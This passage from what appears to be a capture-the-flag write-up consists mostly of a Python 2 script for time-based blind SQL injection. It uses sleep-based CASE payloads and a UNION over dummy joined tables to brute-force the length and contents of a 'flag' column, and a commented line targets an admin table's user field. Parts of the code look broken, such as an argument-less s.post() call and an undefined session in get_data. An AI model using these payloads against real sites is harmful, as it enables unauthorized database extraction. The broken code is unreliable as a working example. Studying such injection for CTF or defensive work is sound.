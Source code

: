 ```
			payload = "(select case when ((SELECT length(t.4) from (select * from((select 1)a join(select 2)b join (select 3)c join (select 4)d) union/**/select * from flag) as t limit 1 offset 1) ="+str(i)+") then sleep(2) else 0 end)"
		

			if get_data(payload):
				print "[*] content_length: "+str(i)
				content_length = i
				break

	content = ""

	tmp_content = ""	


	for i in range(1,content_length+1):
		for k in strings:
			tmp_content = content+str(k)
			tmp_content = tmp_content.ljust(content_length,'_')

			# payload = "1 and (SELECT ascii(mid(((SELECT user from admin limit 1))from("+str(i)+")))="+str(k+1)+") and (sleep(2))"
			payload = "(select case when ((SELECT t.4 from (select * from((select 1)a join(select 2)b join (select 3)c join (select 4)d) union/**/select * from flag) as t limit 1 offset 1) like '"+tmp_content+"') then sleep(2) else 0 end)"
		

			# print payload
			if get_data(payload):
				content += k
				print "[*] content: "+content
				break

	print "[*] content: " + content


def get_response(payload):

	s = requests.Session()
	username = "teststeststests1234\\"

	s.post()

def get_data(payload):
	
	u = url+'?id='+payload
	print u
	otime = time.time()
	# print u.replace(' ','%20')
	
	r = s.get(u)
	rr = r.text
	ptime = time.time()

	if ptime-otime >2:
		return True
	else:
		return False


get_content(url)
```


  [1]: http://static.zybuluo.com/LoRexxar/2k4skvfxrdpk81z7h7ktz8a3/image.png
  [2]: http://static.zybuluo.com/LoRexxar/wjyknopjz1krhiw5xiwdmck7/image.png
  [3]: http://static.zybuluo.com/LoRexxar/d5qwbe52uoykxpukj2jng0nq/image.png
  [4]: http://static.zybuluo.com/LoRexxar/19xgb9vijfro6rt1tmtmq4a2/image.png
  [5]: http://static.zybuluo.com/LoRexxar/086wtfcoxjv3qiu42cmayvzv/image.png
  [6]: http://static.zybuluo.com/LoRexxar/inqsfwig6xb3bvudh8dhozzl/image.png